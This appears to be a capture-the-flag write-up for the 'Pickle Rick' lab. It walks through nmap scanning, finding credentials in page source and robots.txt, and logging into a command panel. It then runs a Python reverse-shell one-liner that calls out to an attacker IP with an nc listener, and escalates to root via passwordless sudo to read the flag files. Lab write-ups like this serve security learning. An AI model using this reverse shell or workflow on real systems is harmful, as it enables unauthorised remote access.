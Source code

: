 ```yaml
---
cover: ../../.gitbook/assets/e5.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pickle Rick

### Information gathering

```bash
kali@kali> echo '10.10.136.110 rick.thm' | sudo tee -a /etc/hosts
kali@kali> nmap rick.thm -oN nmap-scan -T4
kali@kali> ports="$(cat nmap-scan | grep ^[0-9] | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//')"
kali@kali> sudo nmap -p $ports -sV -sC -O rick.thm -oN nmap-services
```

* The open ports are 80 and 22.
* Go to http://rick.thm and you will find a clue in the source code : `R1ckRul3s`.

<figure><img src="../../.gitbook/assets/e6.png" alt=""><figcaption></figcaption></figure>

* Enumerate with Nmap script.

```bash
kali@kali> nmap rick.thm -oN nmap-http-enum --script http-enum -p 80
```

<figure><img src="../../.gitbook/assets/e7.png" alt=""><figcaption></figcaption></figure>

* Grab the content of the `robots.txt` file and you will get the text `Wubbalubbadubdub`.

```bash
kali@kali> curl rick.thm/robots.txt -o robots.txt
```

### Exploitation

* Go to the login page http://rick.thm/login.php and enter credentials `R1ckRul3s:Wubbalubbadubdub`. You gain access to a command panel.
* By executing `python3 --version`, you can see the Python binaries are installed.

<figure><img src="../../.gitbook/assets/e8.png" alt=""><figcaption></figcaption></figure>

* On the [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#python) page, there are few Python scripts and one of these work on our target.

```bash
kali@kali> nc -lnvp 1234
```

* Copy/paste the script below in the command form on the target. Don't forget to set the IP address.

```bash
export RHOST="10.8.150.147";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

You get the reverse shell !

### Post-exploitation

* Upgrade the shell with the command `/bin/bash -i`.
* Check the sudo privileges for `www-data` user. You can see he can run all commands as root with no password.

```bash
www-data@target> sudo -l
www-data@target> sudo su
root@target> cat /var/www/html/Sup3rS3cretPickl3Ingred.txt  # first
root@target> cat /home/rick/second\ ingredients             # second
root@target> cat /root/3rd.txt                              # third
```

<figure><img src="../../.gitbook/assets/e9.png" alt=""><figcaption></figcaption></figure>
